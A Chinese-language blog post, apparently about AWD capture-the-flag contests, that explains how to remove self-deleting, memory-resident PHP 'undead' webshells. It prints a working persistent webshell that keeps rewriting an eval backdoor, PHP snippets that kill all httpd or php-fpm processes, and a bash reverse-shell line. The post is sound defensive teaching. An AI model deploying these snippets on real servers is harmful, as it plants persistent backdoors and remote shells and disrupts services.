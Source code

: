 ```yaml
---
title: 干掉 PHP 不死马
date: 2019-04-04 23:20:56
tags: [awd, web]
---
```


在 AWD 模式下经常碰到不死马, 不干掉的话就会一直被偷 flag, 很难受. 所以研究一下怎么干掉.  

<!-- more -->

## 什么是不死马

先说一下什么是不死马, 比如这种  

```php
<?php
set_time_limit(0);
ignore_user_abort(1);
unlink(__FILE__);
while (1) {
    $content = "<?php error_reporting(0);if(sha1(\$_POST['pwd'])==='%pwd%'){eval(\$_POST['cmd']);}?>";
    file_put_contents(".shell.php", $content);
    usleep(10000);
}
?>
```

简单来说有以下特性:  
* 访问后删除自己
* 即使断开连接也不会停止
* 驻留在内存中定时做某些事情, 比如上面这种就是不停的写 webshell

根据行为也可以将不死马分为两种, 一种是 while(1) 不 sleep, 占用服务器资源, 卡机子,  还有一种是 sleep, 悄悄的留后门  
如果不懂怎么干掉的话, 唯一的办法就是重启环境了, 而这在 AWD 中一般都是会倒扣不少分的...  

接下来了解一下 php 主流的两种运行模式 `php-fpm` 与 `php-apache` 这两种,  
`php-fpm` 适用于 `nginx` 和 `apache` 而 `php-apache` 自然是只能 `apache` 使用,  
其中 fpm 的性能更好, 但是配置较为复杂(其实也不是很复杂 233),  在 AWD 我只遇见过 `php-apache` 这种 0.0  
但是其实要干掉不死马, 步骤都差不多  

## 干掉不死马
### php-apache
在这种模式下, 会在 fork 的一个 apache 进程里面以低权限用户来处理 php, 如下图  
![](https://i.loli.net/2019/04/04/5ca626d682f9d.png)  
我们只要杀掉所以这些进程就行, 但在 AWD 中一般是没 root 权限的, 我们要干掉这些只能以低权限的身份来. 这里有两种办法  
1. 给自己在 web 目录下写一个 php, 里面是 
```php
<?php
system("kill `ps -ef | grep httpd | grep -v grep | awk '{print $2}'`");
```
如果觉得碰到不死马了就直接访问, 杀掉所有 httpd 进程, 因为权限不够, root 的不会被杀掉, 这个守护进程会自动再 fork 进程, 不用担心服务挂  

2. 写个 php 给自己弹个 shell, 在 shell 里面 killall, 这个更方便一点, 也更灵活
```php
<?php
system("bash -i >& /dev/tcp/127.0.0.1/23333 0>&1");
```

### php-fpm
其实跟上面差不多, 只是进程名不同, 因为 fpm 是独立的服务, 不同于上面 apache 里面直接调用 php 的 api  
![](https://i.loli.net/2019/04/05/5ca62d252ca42.png)  
```php
<?php
system("kill `ps -ef | grep php-fpm | grep -v grep | awk '{print $2}'`");
```